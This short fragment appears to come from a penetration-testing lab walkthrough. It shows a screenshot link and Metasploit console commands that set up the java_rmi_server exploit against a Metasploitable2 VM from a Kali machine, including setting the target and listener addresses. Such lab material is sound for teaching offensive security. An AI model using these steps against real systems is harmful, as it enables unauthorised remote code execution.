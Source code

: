 ![3_28](./image3/Screenshot_2020-07-17_01-38-30.png)

```
msf5 exploit(multi/misc/java_rmi_server)> show options
msf5 exploit(multi/misc/java_rmi_server)> set HTTPDELAY 60
msf5 exploit(multi/misc/java_rmi_server)> set RHOSTS [Metasploitable2 IP]
msf5 exploit(multi/misc/java_rmi_server)> set SRVHOST [Kali IP]
msf5 exploit(multi/misc/java_rmi_server)> set LHOST [Kali IP]
```

